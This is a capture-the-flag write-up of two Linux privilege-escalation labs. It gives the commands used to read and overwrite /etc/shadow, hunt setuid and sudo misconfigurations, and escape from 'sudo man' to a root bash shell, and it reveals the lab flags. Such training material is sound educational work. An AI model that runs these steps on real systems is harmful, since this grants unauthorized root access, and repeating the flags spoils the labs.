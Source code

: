# 🔬Linux Privilege Escalation

## Lab 1

> 🔬 [Permissions Matter!](https://www.attackdefense.com/challengedetailsnoauth?cid=75)
>
> - Direct access to the target machine via `student` unprivileged user
> - Find specific **Linux Privilege escalation vulnerabilities manually**
> - Some files permissions are not set properly, use them to elevate privileges.

### Local Enumeration

![](.gitbook/assets/image-20230429120411574.png)

### Misconfigured Permissions Files

- Look for **world writable files**
  - *Find a file that could help to elevate privileges*

```bash
find / -not -type l -perm -o+w
```

![find / -not -type l -perm -o+w](.gitbook/assets/image-20230429120640470.png)

> ❗ `/etc/shadow` is writable by everyone!

```bash
ls -l /etc/shadow
cat /etc/shadow

# "root" user doesn't have a password specified
```

![](.gitbook/assets/image-20230429121216978.png)

### Privilege Escalation

- `/etc/shadow` stores the passwords in an encrypted format, so the `root` password need to be replaced with a hashed password

```bash
# Generate a password entry
openssl passwd -1 -salt abc password123
	$1$abc$UWUoROXzUCsLsVzI0R2et.

# Edit and paste the hashed password into the /etc/shadow file
vim /etc/shadow
```

![](.gitbook/assets/image-20230429121433738.png)

- Switch to the `root` user

```bash
su
# type "password123" password for "root" user

cd
ls
cat flag
```



<details>
<summary>Reveal Flag: 🚩</summary>


`e62ab67ddff744d60cbb6232feaefc4d`

![](.gitbook/assets/image-20230429121642209.png)

</details>

------

## Lab 2

> 🔬 [Editing Gone Wrong](https://www.attackdefense.com/challengedetailsnoauth?cid=80)
>
> - Direct access to the target machine via `student` unprivileged user
> - Find **misconfigured `sudo` privileges**

### Local Enumeration

![](.gitbook/assets/image-20230429120411574.png)

### Misconfigured SUDO Privileges

- Find [`setuid`](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) programs

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
 
find / -perm -u=s -type f 2>/dev/null
```

![](.gitbook/assets/image-20230429122610598.png)

> 📌 Useful tool - [FallOfSudo](https://github.com/CyberOne-TeamARES/FallOfSudo)

- Identify what commands the `student` user can run

```bash
sudo -l
```

![](.gitbook/assets/image-20230429122043004.png)

> ❗ **`/usr/bin/man`** binary can be run ***with `SUDO` privileges, without providing a `root` user password***

- This can happen on Linux systems for specific binaries that other users have to run with `SUDO` privileges. It looks *harmless*, but it can allow users to spawn bash privileged sessions, since **the specific binary can be utilized to execute specific commands**. Those commands are executed with the binary `root` privileges.

### Privilege Escalation

```bash
sudo man ls
```

- In the `man` scrolling page, using the **`!`** a `bash` can be spawned

```bash
!/bin/bash

# "root" bash sessions is received
```

![!/bin/bash](.gitbook/assets/image-20230429123257366.png)

- Retrieve the flag with the **`root`** user



<details>
<summary>Reveal Flag: 🚩</summary>



`74f5cc752947ec8a522f9c49453b8e9a`

![](.gitbook/assets/image-20230429123424840.png)

</details>

------

